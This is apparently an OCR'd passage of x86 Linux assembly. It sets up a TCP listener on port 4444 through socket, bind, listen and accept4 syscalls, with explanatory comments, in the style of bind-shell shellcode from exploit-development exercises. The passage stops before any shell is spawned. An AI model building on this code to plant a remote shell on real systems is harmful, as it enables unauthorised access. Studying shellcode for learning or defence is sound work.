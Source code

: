 ```asm
;
; Note: For protocol, we could also use 0, as the man page for socket tells us,
; "Normally only a single protocol exists to support a particular socket type
;   within a given protocol family, in which case protocol can be specified
;   as 0."

  mov bl, 2
  mov cl, 1
  mov dl, 6
  mov ax, 0x167
  int 0x80


; BIND TO ADDRESS
; int bind (int sockfd, const struct sockaddr *addr, socklen_t addrlen);
; syscall number: 361 (0x169)
;
; Argument Values:
; sockfd = value in eax returned by socket()
; *addr = memory address of structure containing:
;   - sin_family: 0x0002 (AF_INET/IPv4)
;   - sin_port: 0x115c (4444)
;   - sin_addr.s_addr: 0x00000000 (0.0.0.0)
; addrlen = 0x10 (16/sizeof(sockaddr_in))

  xor edx, edx
  mov ebx, eax ; mov sockfd value into ebx
  push edx ; push 0x00000000 for sin_addr.s_addr
  push word 0x5c11 ; push 0x115c for sin_port
  push word 0x02 ; push 0x0002 for sin_family
  mov ecx, esp ; memory pointer to our sockaddr struct
  mov dl, 0x10
  mov ax, 0x169
  int 0x80


; LISTEN FOR CONNECTIONS
; int listen(int sockfd, int backlog);
; syscall number: 363 (0x16b)
;
; Argument Values:
; sockfd = value in ebx
; backlog = 0

  xor ecx, ecx
  mov ax, 0x16b
  int 0x80


; ACCEPT CONNECTIONS
; int accept4(int sockfd, struct sockaddr *addr, socklen_t *addrlen, int flags);
; syscall number: 364 (0x16c)
;
; Argument Values:
; sockfd = value in ebx
; *sockaddr = NULL (0x00)
; *addrlen = NULL (0x00)
; flags = NULL

  xor esi, esi
  xor edx, edx
  mov ax, 0x16c
  int 0x80
```